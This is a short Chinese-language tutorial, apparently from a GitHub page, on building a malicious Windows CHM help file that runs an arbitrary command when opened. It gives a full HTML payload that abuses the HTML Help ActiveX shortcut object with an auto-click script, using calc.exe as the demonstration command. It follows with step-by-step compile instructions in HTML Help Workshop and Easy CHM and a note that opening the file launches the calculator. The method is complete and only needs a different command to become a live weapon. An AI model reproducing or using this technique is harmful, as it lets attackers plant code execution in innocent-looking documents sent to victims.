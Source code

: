 # 恶意chm文件生成

恶意chm文件生成，打开则执行任意命令。  
任选一个工具操作后，就可以生成chm文件。  

准备test.html  
```html
<html>

<head>
    <title>test</title>
</head>

<body>
    <OBJECT id=x classid="clsid:adb880a6-d8ff-11cf-9377-00aa003b7a11" width=1 height=1>
        <PARAM name="Command" value="ShortCut">
        <PARAM name="Button" value="Bitmap::shortcut">
        <PARAM name="Item1" value=",calc.exe">
        <PARAM name="Item2" value="273,1,1">
    </OBJECT>

    <SCRIPT>
        x.Click();
    </SCRIPT>
</body>

</html>
```

## 工具1-HTML Help Workshop
微软自己的`HTML Help Workshop`官方下载地址已经404了，可以参照这个链接在webarchive网站下载`HTML Help Workshop`：  
https://docs.microsoft.com/en-us/answers/questions/265752/htmlhelp-workshop-download-for-chm-compiler-instal.html  
1. http://web.archive.org/web/20160201063255/http://download.microsoft.com/download/0/A/9/0A939EF6-E31C-430F-A3DF-DFAE7960D564/htmlhelp.exe  
2. http://web.archive.org/web/20160314043751/http://download.microsoft.com/download/0/A/9/0A939EF6-E31C-430F-A3DF-DFAE7960D564/helpdocs.zip  

安装之后，打开 `HTML Help Workshop`，  
File->New->Project->Ok->下一步，输入项目名，可以选择路径  
下一步，勾选"HTML files (.htm)"，下一步  
Add，添加test.html，下一步->完成  
File->Compile... 或者 点击第3个图标，即可生成chm文件  


## 工具2-Easy chm
下载安装`Easy chm`，随便搜一个下载，装到虚拟机里。  
把test.html放在一个文件夹里  
运行Easy CHM，新建项目，打开准备好的文件夹，编译->生成CHM 即可生成chm文件  


## 演示
打开新生成的chm文件，计算器就会被打开。  


## 参考链接
1. https://bbs.pediy.com/thread-267038.htm
2. https://www.cnblogs.com/sjsmyy/p/9959343.html


---
2021/10/18  
